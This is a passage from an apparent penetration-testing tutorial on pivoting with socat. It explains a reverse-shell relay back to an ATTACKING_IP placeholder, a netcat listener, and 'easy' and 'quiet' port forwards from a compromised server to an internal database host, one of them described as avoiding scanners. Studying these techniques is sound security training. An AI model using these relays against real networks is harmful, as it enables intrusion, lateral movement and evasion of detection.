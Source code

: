
A brief explanation of the above command:

- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.

In this way we can set up a relay to send reverse shells through a  compromised system, back to our own attacking machine. This technique  can also be chained quite easily; however, in many cases it may be  easier to just upload a static copy of netcat to receive your reverse  shell directly on the compromised server.

------

**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply  to open up a listening port on the compromised server, and redirect  whatever comes into it to the target server. For example, if the  compromised server is 172.16.0.5 and the target is port 3306 of  172.16.0.10, we could use the following command (on the compromised  server) to create a port forward:
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

This opens up port 33060 on the compromised server and redirects the input  from the attacking machine straight to the intended target server,  essentially giving us access to the (presumably MySQL Database) running  on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one  connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our  connection directly relayed to our intended target of 172.16.0.10:3306.

------

**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on  the compromised server, which could potentially be spotted by any kind  of host or network scanning. Whilst the risk is not *massive*, it  pays to know a slightly quieter method of port forwarding with socat.  This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What  goes into one of them will come out of the other. For this reason, port  8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
